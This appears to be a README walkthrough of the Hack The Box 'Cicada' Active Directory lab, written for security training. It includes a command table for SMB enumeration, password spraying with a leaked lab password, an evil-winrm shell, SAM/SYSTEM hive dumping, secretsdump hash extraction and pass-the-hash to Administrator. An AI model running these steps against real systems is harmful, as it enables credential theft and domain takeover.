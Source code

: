 # 🖥️ Hack The Box – "Cicada" Lab Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Cicada-green?logo=hackthebox)](https://www.hackthebox.com)
[![Pentest Lab](https://img.shields.io/badge/Type-Active%20Directory-blue)](#)
[![Difficulty](https://img.shields.io/badge/Difficulty-Easy-yellow)](#)
[![Theme](https://img.shields.io/badge/Theme-Windows%20AD-lightgrey)](#)

---

## 📌 General Summary

 This walkthrough details the compromise of **"Cicada"**, a Windows Active Directory (AD) machine on Hack The Box (HTB).  
 The attack chain moves from enumeration to privilege escalation using `SeBackupPrivilege` and pass-the-hash.

**Key Stages:**
- 🔍 Recon & Enumeration (ports, services, SMB shares, AD users)
- 🔑 Credential Harvesting (found in scripts/shares)
- 🚪 Authentication & Password Sprays
- 📂 Share Access & Further Secrets Discovery
- 📈 Privilege Escalation via Backup Privileges
- 💀 Administrator Access via NTLM Pass-the-Hash

---

## 📜 Attack Flow Overview

1. **Recon:** Enumerate ports, services, SMB shares, AD users.  
2. **Cred Harvesting:** Find plaintext credentials in shares or scripts.  
3. **Password Attacks:** Spray credentials for valid logins.  
4. **Pivoting:** Use compromised accounts to explore further assets.  
5. **Privilege Escalation:** Exploit `SeBackupPrivilege` to dump registry hives.  
6. **Hash Extraction & PtH:** Use NTLM hashes to become Administrator.  

---

<details>
<summary>💻 <strong>Commands Used & Their Purpose</strong> (click to expand)</summary>

| Command | Purpose & Description |
|---------|-----------------------|
| `nmap -sC -sV -Pn 10.10.11.35` | Scan target for open ports, services, and default scripts. |
| `echo "10.10.11.35 cicada.htb" | sudo tee -a /etc/hosts` | Add domain mapping locally. |
| `crackmapexec smb cicada.htb --shares` | List SMB shares anonymously. |
| `crackmapexec smb cicada.htb -u 'guest' -p '' --shares` | List SMB shares as guest. |
| `smbclient //cicada.htb/HR` | Connect to "HR" SMB share. |
| `dir` *(within smbclient)* | List files inside share. |
| `get "Notice from HR.txt"` *(within smbclient)* | Download file from SMB. |
| `impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass` | Enumerate domain SIDs. |
| `impacket-lookupsid ...` | `grep 'SidTypeUser'` | Extract user accounts only. |
| `crackmapexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'` | Password spray users. |
| `crackmapexec smb cicada.htb -u michael.wrightson ... --users` | List users with credentials. |
| `crackmapexec smb cicada.htb -u david.orelious ... --shares` | Check shares with David's creds. |
| `smbclient //cicada.htb/DEV -U 'david.orelious%...'` | Connect to "DEV" SMB share. |
| `get Backup_script.ps1` *(within smbclient)* | Download script. |
| `evil-winrm -u emily.oscars ... -i cicada.htb` | Remote shell access. |
| `whoami /priv` | Check privileges. |
| `reg save hklm\sam sam` | Save SAM hive. |
| `reg save hklm\system system` | Save SYSTEM hive. |
| `download sam` | Download SAM hive locally. |
| `download system` | Download SYSTEM hive locally. |
| `impacket-secretsdump -sam sam -system system local` | Extract NTLM hashes. |
| `evil-winrm -u Administrator -H <hash> -i cicada.htb` | Pass-the-hash to Admin. |

</details>

---
<details>
<summary>💻 <strong>Stepwise PoC</strong> (click to expand)</summary>

<img width="1529" height="714" alt="1" src="https://github.com/user-attachments/assets/e87e4402-c194-434a-be20-1d091e0c4264" />
<img width="1527" height="576" alt="2" src="https://github.com/user-attachments/assets/a232a0e0-2e7b-43b6-b2b3-0720c15a0dd0" />
<img width="843" height="66" alt="3" src="https://github.com/user-attachments/assets/629a1cc5-b20e-49a8-973e-6e0bed57da7e" />
<img width="1588" height="213" alt="4" src="https://github.com/user-attachments/assets/a5bef22c-5874-4d12-bd93-0e34f5096412" />
<img width="1572" height="467" alt="5" src="https://github.com/user-attachments/assets/36d4061b-64e2-4b79-b756-100ddd26dff0" />
<img width="1442" height="437" alt="6" src="https://github.com/user-attachments/assets/2d1f1047-4f38-47a1-9e95-a576f30cf461" />
<img width="1768" height="718" alt="7" src="https://github.com/user-attachments/assets/ed7e968a-7b67-4b18-8ecf-a7e08b0d9c8a" />
<img width="1248" height="555" alt="8" src="https://github.com/user-attachments/assets/8a405c0a-88a6-40cb-8998-15c8edcc51c0" />
<img width="830" height="407" alt="9" src="https://github.com/user-attachments/assets/60833066-52bb-47cc-acea-a6c501eac049" />
<img width="1134" height="449" alt="10" src="https://github.com/user-attachments/assets/f961c78e-a3e7-4ed2-94b9-7c8c26cf952c" />
<img width="1548" height="473" alt="11" src="https://github.com/user-attachments/assets/65e5eb67-6b16-4b74-96ee-bba1729f5240" />
<img width="1500" height="475" alt="12" src="https://github.com/user-attachments/assets/2fed2796-0a6d-4ff1-ad4a-de8f27dd40ac" />
<img width="1555" height="592" alt="13" src="https://github.com/user-attachments/assets/9e7e9352-6453-4e19-9249-d128bd13a256" />
<img width="1536" height="478" alt="14" src="https://github.com/user-attachments/assets/b1e954f3-4f88-4c06-a300-9d6b81f2c267" />
<img width="1404" height="373" alt="15" src="https://github.com/user-attachments/assets/6f0aff03-85ce-4adc-a0e2-60a3c1afc26f" />
<img width="1470" height="484" alt="16" src="https://github.com/user-attachments/assets/d75d281d-3936-43a9-95cb-b8cd8af3d770" />
<img width="1012" height="380" alt="17" src="https://github.com/user-attachments/assets/c04f7488-9cc0-458c-b9b8-2ce5e5033467" />
<img width="1011" height="407" alt="18" src="https://github.com/user-attachments/assets/700ac6d5-7d65-4a0f-99fe-12b2b4a7618e" />
<img width="748" height="346" alt="19" src="https://github.com/user-attachments/assets/9a3694f2-b47c-448b-aecd-4cf29e58809c" />
<img width="966" height="310" alt="20" src="https://github.com/user-attachments/assets/b120896d-50e7-47d9-ba36-07a0890c7cc8" />
<img width="1008" height="407" alt="21" src="https://github.com/user-attachments/assets/777abf77-0d39-4150-b560-b01e2eed2321" />
<img width="1016" height="471" alt="22" src="https://github.com/user-attachments/assets/ef0e2aad-77a6-4b21-afed-951e72a69248" />

</details>

---

## 🛠 Toolset Notes

- **nmap** → Reconnaissance & service identification.  
- **crackmapexec** → SMB enumeration, credential spraying, privilege checks.  
- **smbclient** → Manual SMB interaction and file retrieval.  
- **evil-winrm** → Windows remote post-exploitation shell.  
- **reg save** → Registry dump for SAM & SYSTEM.  
- **impacket-secretsdump** → Extracts NTLM hashes from hives.  
- **Pass-the-Hash** → Authenticate with NTLM without knowing the plaintext password.

---
